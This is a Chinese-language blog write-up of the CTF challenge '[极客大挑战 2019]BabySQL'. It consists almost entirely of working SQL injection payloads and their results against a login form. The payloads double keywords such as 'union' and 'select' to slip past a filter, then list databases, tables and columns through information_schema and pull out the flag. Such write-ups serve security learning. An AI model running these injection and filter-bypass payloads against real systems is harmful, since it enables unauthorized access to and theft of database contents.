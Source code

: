 ```yaml
---
layout: post
title: "[极客大挑战 2019]BabySQL"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```


先确定字段数

```sql
1' order by 3#
```

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'der 3#' and password='123'' at line 1
```

发现输入的字符串变成`der 3#`，`or`和`by`被删了

输入

```sql
1' oorrder bbyy 3#      NO,Wrong username password！！！
1' oorrder bbyy 4#      Error!  Unknown column '4' in 'order clause'
```

字段数为3

尝试联合查询

```sql
1' union select 1,2,3#
```

```txt
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1#' and password='123'' at line 1
```

发现输入的字符串变成`1#`，`union`和`select`被删了

输入

```sql
1' ununionion seselectlect 1,2,3#
```

```txt
Login Success!
Hello 2！
Your password is '3'
```

2,3字段会显示出来

输入

```sql
1' ununionion seselectlect 1,2,database()#
```

```txt
Login Success!
Hello 2！
Your password is 'geek'
```

得到数据库名`geek`

查询所有数据库
从`information_schema.schemata`表中查询所有数据库名
注意`information_schema`里的`or`，`from`，`where`等关键字被过滤

```sql
1' ununionion seselectlect 1,2,group_concat(schema_name) frfromom infoorrmation_schema.schemata#
```

```txt
Login Success!
Hello 2！
Your password is 'information_schema,performance_schema,mysql,test,geek,ctf'
```

得到所有数据库名

```txt
information_schema
performance_schema
mysql
test
geek
ctf
```

查询数据库ctf的表

```sql
1' ununionion seselectlect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='ctf'#
```

```txt
Login Success!
Hello 2！
Your password is 'Flag'
```

数据库ctf下有一个表`Flag`，查询该表的字段

```sql
1' ununionion seselectlect 1,2,group_concat(column_name) frfromom  infoorrmation_schema.columns whwhereere table_schema='ctf'#
```

```txt
Login Success!
Hello 2！
Your password is 'flag'
```

查询ctf数据库下的Flag表的flag字段

```sql
username=1' ununionion seselectlect 1,2,group_concat(flag) frfromom ctf.Flag#
```

```txt
Login Success!
Hello 2！
Your password is 'flag{xxxxxxxxxx}'
```

得到flag

